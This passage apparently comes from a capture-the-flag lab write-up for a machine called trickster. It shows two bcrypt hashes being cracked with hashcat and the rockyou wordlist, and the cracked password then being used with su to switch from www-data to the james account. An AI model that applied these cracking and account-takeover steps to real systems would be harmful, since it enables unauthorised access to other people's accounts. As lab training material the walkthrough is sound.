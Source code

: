 ### su / SSH

#### Hashcat

I’ll format these two into a file with the user name and hash:

```

admin@trickster.htb:$2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C
james@trickster.htb:$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm

```

Running `hashcat` in detect mode asks for a specific mode:

```

$ hashcat employees.hashes --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].

```

There’s no reason to think it’s anything besides generic bycrypt, so I’ll run again with `-m 3200`:

```

$ hashcat employees.hashes --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt -m 3200
hashcat (v6.2.6) starting
...[snip]...
Hashes: 2 digests; 2 unique digests, 2 unique salts
...[snip]...
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
...[snip]...

```

The james user password cracks as “alwaysandforever” pretty quickly.

#### Shell

That password works for james on trickster with `su`:

```

www-data@trickster:~$ su - james
Password: 
james@trickster:~$

```
